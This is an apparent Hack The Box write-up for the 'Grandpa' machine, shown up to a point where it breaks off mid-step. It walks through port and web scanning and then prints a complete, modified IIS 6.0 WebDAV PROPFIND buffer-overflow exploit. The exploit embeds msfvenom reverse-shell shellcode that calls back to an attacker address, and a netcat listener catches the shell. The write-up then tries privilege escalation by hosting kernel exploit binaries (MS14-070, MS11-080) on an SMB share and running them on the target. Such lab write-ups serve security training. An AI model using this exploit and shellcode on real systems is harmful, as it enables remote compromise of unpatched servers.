






# [Grandpa](https://app.hackthebox.eu/machines/13)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.14 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.14 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.14
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.14
```

The TCP quick scan returns the following:



Start the following web scanner:

```bash
nikto -h http://10.10.10.14/ -C all --maxtime=120s --output=nikto.txt
```


Browse to the site manually:

```bash
firefox http://10.10.10.14/
```


Site looks like a default. Start a directroy scanner looking for `asp` or `aspx` pages:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -r -q -z -o gobuster.txt -x asp,aspx \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -u http://10.10.10.14/ &
```

This does not return many interesting results:

```
/images (Status: 403)
/Images (Status: 403)
/IMAGES (Status: 403)
/_private (Status: 403)
```

Maybe WebDAV is enabled?

```bash
davtest -url http://10.10.10.14/
```


It seems like WebDAV is enabled but uploading files is not possible. The full `nmap` scan returns more interesting results:


Looking at `http://10.10.10.14/postinfo.html` shows the following in the HTML source:


Some Googling for this shows that the FrontPage info can be found at `http://10.10.10.14/_vti_inf.html`:



FrontPage does have some vulnerabilities:

- https://insecure.org/sploits/Microsoft.frontpage.insecurities.html
- https://raw.githubusercontent.com/deepak0401/Front-Page-Exploit/master/README.md
- https://github.com/andresriancho/w3af/blob/master/w3af/plugins/audit/frontpage.py

However, looking at these results in only dead ends... Next try looking for some web server exploit for IIS 6 (version found from `nikto`):

```bash
searchsploit iis 6.0
```



Some of these look promising that require WebDAV since that has already been proven to be enabled:

- https://www.exploit-db.com/exploits/41738
  - Exploit PoC just spawns `calc.exe` and does not explain how to modify it?
- https://www.exploit-db.com/exploits/41992
  - Seems to be the Metasploit version of exploit 41738 and explains how to modify the payload

It seems like exploit 41738 can be modified to work without Metasploit? Looking at the following Ruby code shows how to generate a new payload:

```ruby
'Payload' =>
  {
    'Space'         => 2000,
    'BadChars'      => "\x00",
    'EncoderType'   => Msf::Encoder::Type::AlphanumUnicodeMixed,
    'DisableNops'   =>  'True',
    'EncoderOptions' =>
      {
        'BufferRegister' => 'ESI',
      }
  },
'DefaultOptions' =>
  {
    'EXITFUNC' => 'process',
    'PrependMigrate' => true,
  },
```

This can be made into the following long `msfvenom` command:

```bash
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         EXITFUNC=process \
         PrependMigrate=true \
         BufferRegister=ESI \
         -a x86 --platform windows \
         -e x86/unicode_mixed \
         -b '\x00' \
         -s 2000 \
         -n 0 \
         -f python \
         -v shellcode
```

Now modify exploit 41738 and change `localhost` to `10.10.10.14` in the payload:

```python
import time
import socket

# msfvenom -p windows/shell_reverse_tcp \
#          LHOST=10.10.14.25 \
#          LPORT=6969 \
#          EXITFUNC=process \
#          PrependMigrate=true \
#          BufferRegister=ESI \
#          -a x86 --platform windows \
#          -e x86/unicode_mixed \
#          -b '\x00' \
#          -s 2000 \
#          -n 0 \
#          -f python \
#          -v shellcode
shellcode =  b""
shellcode += b"\x56\x56\x59\x41\x49\x41\x49\x41\x49\x41\x49"
shellcode += b"\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
shellcode += b"\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x6a"
shellcode += b"\x58\x41\x51\x41\x44\x41\x5a\x41\x42\x41\x52"
shellcode += b"\x41\x4c\x41\x59\x41\x49\x41\x51\x41\x49\x41"
shellcode += b"\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31\x41"
shellcode += b"\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49"
shellcode += b"\x41\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49"
shellcode += b"\x51\x49\x41\x49\x51\x49\x31\x31\x31\x41\x49"
shellcode += b"\x41\x4a\x51\x59\x41\x5a\x42\x41\x42\x41\x42"
shellcode += b"\x41\x42\x41\x42\x6b\x4d\x41\x47\x42\x39\x75"
shellcode += b"\x34\x4a\x42\x79\x6c\x4b\x39\x34\x46\x79\x70"
shellcode += b"\x6d\x30\x4b\x50\x6f\x6d\x35\x33\x35\x75\x4c"
shellcode += b"\x4b\x31\x71\x77\x54\x44\x30\x59\x6e\x4b\x4f"
shellcode += b"\x4b\x4f\x74\x4d\x50\x54\x4c\x64\x51\x50\x52"
shellcode += b"\x32\x72\x48\x74\x71\x4e\x6a\x30\x6b\x48\x31"
shellcode += b"\x49\x6f\x68\x55\x52\x6d\x61\x34\x6c\x64\x43"
shellcode += b"\x30\x6a\x4b\x61\x4c\x31\x4e\x72\x6d\x61\x68"
shellcode += b"\x4f\x70\x61\x47\x52\x30\x4d\x61\x39\x4b\x72"
shellcode += b"\x33\x6e\x73\x42\x48\x4b\x54\x4d\x30\x59\x70"
shellcode += b"\x59\x78\x70\x53\x32\x33\x52\x33\x42\x36\x42"
shellcode += b"\x33\x73\x38\x31\x69\x36\x6c\x6d\x6f\x31\x76"
shellcode += b"\x79\x6f\x48\x55\x64\x45\x55\x70\x33\x44\x4f"
shellcode += b"\x65\x71\x5a\x51\x30\x51\x70\x47\x57\x5a\x70"
shellcode += b"\x4e\x73\x72\x33\x4e\x51\x37\x6b\x50\x53\x49"
shellcode += b"\x6f\x6f\x47\x30\x68\x44\x6e\x71\x77\x74\x52"
shellcode += b"\x6f\x4f\x49\x6f\x66\x75\x6f\x64\x71\x58\x61"
shellcode += b"\x34\x69\x71\x79\x70\x79\x70\x5a\x4b\x4f\x45"
shellcode += b"\x32\x30\x6b\x4f\x6d\x67\x4f\x78\x57\x55\x68"
shellcode += b"\x58\x75\x6d\x4a\x47\x39\x6f\x38\x55\x6e\x73"
shellcode += b"\x6e\x73\x62\x33\x34\x4b\x30\x4c\x6d\x54\x6b"
shellcode += b"\x4c\x4e\x71\x50\x53\x51\x43\x4b\x4f\x6d\x67"
shellcode += b"\x73\x38\x58\x46\x76\x4c\x34\x5a\x54\x39\x79"
shellcode += b"\x6f\x67\x65\x5a\x49\x6f\x4d\x79\x71\x6d\x30"
shellcode += b"\x39\x70\x5a\x48\x43\x6f\x6b\x4f\x59\x6f\x39"
shellcode += b"\x6f\x74\x32\x34\x35\x70\x6e\x31\x54\x72\x4c"
shellcode += b"\x52\x4c\x4c\x73\x4e\x52\x6b\x50\x4b\x38\x70"
shellcode += b"\x75\x49\x6f\x4b\x4f\x4b\x4f\x59\x58\x75\x76"
shellcode += b"\x6b\x4f\x49\x6f\x69\x6f\x59\x6c\x39\x58\x72"
shellcode += b"\x62\x39\x70\x4b\x50\x79\x70\x53\x30\x55\x39"
shellcode += b"\x5a\x45\x4c\x71\x75\x70\x50\x64\x54\x4b\x62"
shellcode += b"\x30\x30\x30\x52\x6b\x71\x42\x4a\x6c\x54\x4b"
shellcode += b"\x6e\x72\x4b\x64\x62\x6b\x52\x52\x6e\x48\x4a"
shellcode += b"\x6f\x75\x67\x30\x4a\x6f\x36\x6d\x61\x79\x6f"
shellcode += b"\x36\x4c\x4d\x6c\x71\x51\x71\x6c\x4b\x52\x4e"
shellcode += b"\x4c\x4f\x30\x35\x71\x66\x6f\x6c\x4d\x59\x71"
shellcode += b"\x77\x57\x77\x72\x79\x62\x71\x42\x70\x57\x74"
shellcode += b"\x4b\x51\x42\x6e\x30\x72\x6b\x4f\x5a\x6f\x4c"
shellcode += b"\x54\x4b\x4e\x6c\x6e\x31\x74\x38\x49\x53\x61"
shellcode += b"\x38\x4a\x61\x76\x71\x42\x31\x74\x4b\x51\x49"
shellcode += b"\x4d\x50\x5a\x61\x67\x63\x74\x4b\x61\x39\x6e"
shellcode += b"\x38\x77\x73\x4d\x6a\x6f\x59\x52\x6b\x6c\x74"
shellcode += b"\x52\x6b\x6b\x51\x39\x46\x6d\x61\x6b\x4f\x36"
shellcode += b"\x4c\x66\x61\x56\x6f\x6a\x6d\x4d\x31\x67\x57"
shellcode += b"\x6d\x68\x37\x70\x31\x65\x69\x66\x59\x73\x51"
shellcode += b"\x6d\x38\x78\x4d\x6b\x31\x6d\x4f\x34\x71\x65"
shellcode += b"\x49\x54\x51\x48\x32\x6b\x31\x48\x4c\x64\x5a"
shellcode += b"\x61\x56\x73\x42\x46\x34\x4b\x5a\x6c\x4e\x6b"
shellcode += b"\x44\x4b\x62\x38\x6d\x4c\x59\x71\x48\x53\x62"
shellcode += b"\x6b\x59\x74\x32\x6b\x4a\x61\x58\x50\x53\x59"
shellcode += b"\x71\x34\x6d\x54\x6d\x54\x6f\x6b\x61\x4b\x70"
shellcode += b"\x61\x42\x39\x70\x5a\x6f\x61\x79\x6f\x67\x70"
shellcode += b"\x4f\x6f\x31\x4f\x61\x4a\x52\x6b\x6b\x62\x68"
shellcode += b"\x6b\x44\x4d\x6f\x6d\x72\x48\x6e\x53\x4c\x72"
shellcode += b"\x4b\x50\x39\x70\x53\x38\x31\x67\x64\x33\x6d"
shellcode += b"\x62\x6f\x6f\x72\x34\x42\x48\x70\x4c\x53\x47"
shellcode += b"\x4f\x36\x4b\x57\x69\x6f\x77\x65\x47\x48\x72"
shellcode += b"\x70\x7a\x61\x69\x70\x6b\x50\x6c\x69\x49\x34"
shellcode += b"\x32\x34\x52\x30\x42\x48\x4f\x39\x33\x50\x32"
shellcode += b"\x4b\x69\x70\x4b\x4f\x67\x65\x32\x30\x30\x50"
shellcode += b"\x32\x30\x42\x30\x6f\x50\x32\x30\x51\x30\x4e"
shellcode += b"\x70\x53\x38\x77\x7a\x7a\x6f\x77\x6f\x77\x70"
shellcode += b"\x59\x6f\x6a\x35\x76\x37\x52\x4a\x7a\x65\x52"
shellcode += b"\x48\x69\x7a\x6c\x4a\x6c\x4e\x4b\x69\x6f\x78"
shellcode += b"\x4a\x62\x59\x70\x4b\x6b\x6f\x49\x72\x69\x79"
shellcode += b"\x56\x6f\x7a\x4e\x30\x50\x56\x72\x37\x71\x58"
shellcode += b"\x45\x49\x74\x65\x62\x54\x30\x61\x6b\x4f\x47"
shellcode += b"\x65\x45\x35\x77\x50\x30\x74\x5a\x6c\x69\x6f"
shellcode += b"\x4e\x6e\x59\x78\x42\x55\x7a\x4c\x70\x68\x68"
shellcode += b"\x70\x55\x65\x77\x32\x42\x36\x49\x6f\x49\x45"
shellcode += b"\x73\x38\x73\x33\x30\x6d\x71\x54\x59\x70\x32"
shellcode += b"\x69\x68\x63\x31\x47\x32\x37\x4f\x67\x4d\x61"
shellcode += b"\x59\x66\x52\x4a\x6a\x72\x51\x49\x30\x56\x59"
shellcode += b"\x52\x59\x6d\x72\x46\x49\x37\x4f\x54\x6d\x54"
shellcode += b"\x6f\x4c\x6b\x51\x6a\x61\x32\x6d\x70\x44\x4f"
shellcode += b"\x34\x4c\x50\x48\x46\x79\x70\x4f\x54\x51\x44"
shellcode += b"\x70\x50\x51\x46\x70\x56\x70\x56\x6d\x76\x6e"
shellcode += b"\x76\x30\x4e\x4e\x76\x31\x46\x52\x33\x61\x46"
shellcode += b"\x32\x48\x31\x69\x68\x4c\x4f\x4f\x33\x56\x6b"
shellcode += b"\x4f\x36\x75\x35\x39\x77\x70\x6e\x6e\x52\x36"
shellcode += b"\x50\x46\x59\x6f\x6e\x50\x73\x38\x5a\x68\x63"
shellcode += b"\x57\x6d\x4d\x73\x30\x39\x6f\x69\x45\x35\x6b"
shellcode += b"\x68\x70\x76\x55\x64\x62\x62\x36\x61\x58\x67"
shellcode += b"\x36\x74\x55\x65\x6d\x73\x6d\x79\x6f\x58\x55"
shellcode += b"\x6f\x4c\x6d\x36\x43\x4c\x6a\x6a\x71\x70\x79"
shellcode += b"\x6b\x59\x50\x52\x55\x49\x75\x77\x4b\x70\x47"
shellcode += b"\x7a\x73\x73\x42\x42\x4f\x71\x5a\x69\x70\x4e"
shellcode += b"\x73\x6b\x4f\x4a\x35\x41\x41"

payload  = b'PROPFIND / HTTP/1.1\r\nHost: 10.10.10.14\r\nContent-Length: 0\r\n'
payload += b'If: <http://10.10.10.14/aaaaaaa'
payload += b'\xe6\xbd\xa8\xe7\xa1\xa3\xe7\x9d\xa1\xe7\x84\xb3\xe6\xa4\xb6\xe4\x9d\xb2\xe7\xa8\xb9\xe4\xad\xb7\xe4\xbd\xb0\xe7\x95\x93\xe7\xa9\x8f\xe4\xa1\xa8\xe5\x99\xa3\xe6\xb5\x94\xe6\xa1\x85\xe3\xa5\x93\xe5\x81\xac\xe5\x95\xa7\xe6\x9d\xa3\xe3\x8d\xa4\xe4\x98\xb0\xe7\xa1\x85\xe6\xa5\x92\xe5\x90\xb1\xe4\xb1\x98\xe6\xa9\x91\xe7\x89\x81\xe4\x88\xb1\xe7\x80\xb5\xe5\xa1\x90\xe3\x99\xa4\xe6\xb1\x87\xe3\x94\xb9\xe5\x91\xaa\xe5\x80\xb4\xe5\x91\x83\xe7\x9d\x92\xe5\x81\xa1\xe3\x88\xb2\xe6\xb5\x8b\xe6\xb0\xb4\xe3\x89\x87\xe6\x89\x81\xe3\x9d\x8d\xe5\x85\xa1\xe5\xa1\xa2\xe4\x9d\xb3\xe5\x89\x90\xe3\x99\xb0\xe7\x95\x84\xe6\xa1\xaa\xe3\x8d\xb4\xe4\xb9\x8a\xe7\xa1\xab\xe4\xa5\xb6\xe4\xb9\xb3\xe4\xb1\xaa\xe5\x9d\xba\xe6\xbd\xb1\xe5\xa1\x8a\xe3\x88\xb0\xe3\x9d\xae\xe4\xad\x89\xe5\x89\x8d\xe4\xa1\xa3\xe6\xbd\x8c\xe7\x95\x96\xe7\x95\xb5\xe6\x99\xaf\xe7\x99\xa8\xe4\x91\x8d\xe5\x81\xb0\xe7\xa8\xb6\xe6\x89\x8b\xe6\x95\x97\xe7\x95\x90\xe6\xa9\xb2\xe7\xa9\xab\xe7\x9d\xa2\xe7\x99\x98\xe6\x89\x88\xe6\x94\xb1\xe3\x81\x94\xe6\xb1\xb9\xe5\x81\x8a\xe5\x91\xa2\xe5\x80\xb3\xe3\x95\xb7\xe6\xa9\xb7\xe4\x85\x84\xe3\x8c\xb4\xe6\x91\xb6\xe4\xb5\x86\xe5\x99\x94\xe4\x9d\xac\xe6\x95\x83\xe7\x98\xb2\xe7\x89\xb8\xe5\x9d\xa9\xe4\x8c\xb8\xe6\x89\xb2\xe5\xa8\xb0\xe5\xa4\xb8\xe5\x91\x88\xc8\x82\xc8\x82\xe1\x8b\x80\xe6\xa0\x83\xe6\xb1\x84\xe5\x89\x96\xe4\xac\xb7\xe6\xb1\xad\xe4\xbd\x98\xe5\xa1\x9a\xe7\xa5\x90\xe4\xa5\xaa\xe5\xa1\x8f\xe4\xa9\x92\xe4\x85\x90\xe6\x99\x8d\xe1\x8f\x80\xe6\xa0\x83\xe4\xa0\xb4\xe6\x94\xb1\xe6\xbd\x83\xe6\xb9\xa6\xe7\x91\x81\xe4\x8d\xac\xe1\x8f\x80\xe6\xa0\x83\xe5\x8d\x83\xe6\xa9\x81\xe7\x81\x92\xe3\x8c\xb0\xe5\xa1\xa6\xe4\x89\x8c\xe7\x81\x8b\xe6\x8d\x86\xe5\x85\xb3\xe7\xa5\x81\xe7\xa9\x90\xe4\xa9\xac'
payload += b'> (Not <locktoken:write1>) <http://10.10.10.14/bbbbbbb'
payload += b'\xe7\xa5\x88\xe6\x85\xb5\xe4\xbd\x83\xe6\xbd\xa7\xe6\xad\xaf\xe4\xa1\x85\xe3\x99\x86\xe6\x9d\xb5\xe4\x90\xb3\xe3\xa1\xb1\xe5\x9d\xa5\xe5\xa9\xa2\xe5\x90\xb5\xe5\x99\xa1\xe6\xa5\x92\xe6\xa9\x93\xe5\x85\x97\xe3\xa1\x8e\xe5\xa5\x88\xe6\x8d\x95\xe4\xa5\xb1\xe4\x8d\xa4\xe6\x91\xb2\xe3\x91\xa8\xe4\x9d\x98\xe7\x85\xb9\xe3\x8d\xab\xe6\xad\x95\xe6\xb5\x88\xe5\x81\x8f\xe7\xa9\x86\xe3\x91\xb1\xe6\xbd\x94\xe7\x91\x83\xe5\xa5\x96\xe6\xbd\xaf\xe7\x8d\x81\xe3\x91\x97\xe6\x85\xa8\xe7\xa9\xb2\xe3\x9d\x85\xe4\xb5\x89\xe5\x9d\x8e\xe5\x91\x88\xe4\xb0\xb8\xe3\x99\xba\xe3\x95\xb2\xe6\x89\xa6\xe6\xb9\x83\xe4\xa1\xad\xe3\x95\x88\xe6\x85\xb7\xe4\xb5\x9a\xe6\x85\xb4\xe4\x84\xb3\xe4\x8d\xa5\xe5\x89\xb2\xe6\xb5\xa9\xe3\x99\xb1\xe4\xb9\xa4\xe6\xb8\xb9\xe6\x8d\x93\xe6\xad\xa4\xe5\x85\x86\xe4\xbc\xb0\xe7\xa1\xaf\xe7\x89\x93\xe6\x9d\x90\xe4\x95\x93\xe7\xa9\xa3\xe7\x84\xb9\xe4\xbd\x93\xe4\x91\x96\xe6\xbc\xb6\xe7\x8d\xb9\xe6\xa1\xb7\xe7\xa9\x96\xe6\x85\x8a\xe3\xa5\x85\xe3\x98\xb9\xe6\xb0\xb9\xe4\x94\xb1\xe3\x91\xb2\xe5\x8d\xa5\xe5\xa1\x8a\xe4\x91\x8e\xe7\xa9\x84\xe6\xb0\xb5\xe5\xa9\x96\xe6\x89\x81\xe6\xb9\xb2\xe6\x98\xb1\xe5\xa5\x99\xe5\x90\xb3\xe3\x85\x82\xe5\xa1\xa5\xe5\xa5\x81\xe7\x85\x90\xe3\x80\xb6\xe5\x9d\xb7\xe4\x91\x97\xe5\x8d\xa1\xe1\x8f\x80\xe6\xa0\x83\xe6\xb9\x8f\xe6\xa0\x80\xe6\xb9\x8f\xe6\xa0\x80\xe4\x89\x87\xe7\x99\xaa\xe1\x8f\x80\xe6\xa0\x83\xe4\x89\x97\xe4\xbd\xb4\xe5\xa5\x87\xe5\x88\xb4\xe4\xad\xa6\xe4\xad\x82\xe7\x91\xa4\xe7\xa1\xaf\xe6\x82\x82\xe6\xa0\x81\xe5\x84\xb5\xe7\x89\xba\xe7\x91\xba\xe4\xb5\x87\xe4\x91\x99\xe5\x9d\x97\xeb\x84\x93\xe6\xa0\x80\xe3\x85\xb6\xe6\xb9\xaf\xe2\x93\xa3\xe6\xa0\x81\xe1\x91\xa0\xe6\xa0\x83\xcc\x80\xe7\xbf\xbe\xef\xbf\xbf\xef\xbf\xbf\xe1\x8f\x80\xe6\xa0\x83\xd1\xae\xe6\xa0\x83\xe7\x85\xae\xe7\x91\xb0\xe1\x90\xb4\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81\xe9\x8e\x91\xe6\xa0\x80\xe3\xa4\xb1\xe6\x99\xae\xe4\xa5\x95\xe3\x81\x92\xe5\x91\xab\xe7\x99\xab\xe7\x89\x8a\xe7\xa5\xa1\xe1\x90\x9c\xe6\xa0\x83\xe6\xb8\x85\xe6\xa0\x80\xe7\x9c\xb2\xe7\xa5\xa8\xe4\xb5\xa9\xe3\x99\xac\xe4\x91\xa8\xe4\xb5\xb0\xe8\x89\x86\xe6\xa0\x80\xe4\xa1\xb7\xe3\x89\x93\xe1\xb6\xaa\xe6\xa0\x82\xe6\xbd\xaa\xe4\x8c\xb5\xe1\x8f\xb8\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81'
payload += shellcode
payload += b'>\r\n\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.10.14', 80))
s.send(payload)
time.sleep(1)
s.close()
```

Then set up a listener and try the exploit:

```bash
nc -nvlp 6969
python3 exploit.py
```

And this returns a shell but does not give `user.txt`:



Looking at current privledges shows that `SeImpersonatePrivilege` is given. This means that the Juicy Potato series of exploits should work:

- https://github.com/ohpe/juicy-potato


However, the target seems to be x86 and Windows Server 2003:



The default Juicy Potato is for x64 only. However, this one will work for x86:

- https://github.com/ivanitlearning/Juicy-Potato-x86

Another problem exists though. This exploit requires a CLSID for the service to abuse. The standard list of CLSIDs does not list Windows Server 2003 and the script to extract them is written in PowerShell:

- https://github.com/ohpe/juicy-potato/tree/master/CLSID

It is possible to find CLSIDs manually in the Windows command prompt without PowerShell:

```
reg query HKCR\clsid /s 
reg query HKCR\appid /s 
```

However, going down this road leads to another dead end as the Juicy Potato for x86 seems to just hang on the target whenever it is ran. Looking around the target does not show any interesting processess running or any special network ports open or any interesting files on the system... Next look for a kernel exploit since the output of `systeminfo` lists no HotFixes. Since the target is running an old OS version, use the older version of the Windows exploit suggester:

- https://github.com/AonCyberLabs/Windows-Exploit-Suggester

```bash
# save systeminfo output from target into systeminfo.txt
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git
python2.7 Windows-Exploit-Suggester/windows-exploit-suggester.py --update
python2.7 Windows-Exploit-Suggester/windows-exploit-suggester.py -i systeminfo.txt -d 2020-12-02-mssb.xls --local
```



Cross-reference this list with the following repo:

- https://github.com/SecWiki/windows-kernel-exploits

This leads to the following pre-compiled exploits to test:

- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051
  - Seems applicable?
- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-070
  - Seems applicable and screenshots seem to be tested on Windows Server 2003
- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068
  - Requires Kerberos so this exploit will not work
- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-040
  - PoC Python code mentions Windows 7 only...
- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS09-020
  - Mentions vulnerability in IIS 6.0 WebDav? The MSDN writeup says the website must have a password protected folder...
- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS11-011
  - Seems only valid for Windows XP
- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS11-080
  - Seems applicable and screenshots seem to be tested on Windows Server 2003

There are a few contenders but some standout as more probable based on the screenshots in the write-ups:

- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-070
- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS11-080

Start with MS14-070 first:

```bash
# on kali, download and host binary
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS14-070/MS14-070.rar
unrar x MS14-070.rar
sudo impacket-smbserver BUBBA .
# on target download, and run binary
copy \\10.10.14.25\BUBBA\MS14-070\MS14-070.exe %TEMP%\MS14-070.exe
%TEMP%\MS14-070.exe
```

However, this exploit did not work as expected (caused the box to hang). Next try MS11-080:

```bash
# on kali, download and host binary
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS11-080/ms11-080.exe
sudo impacket-smbserver BUBBA .
# on target download, and run binary
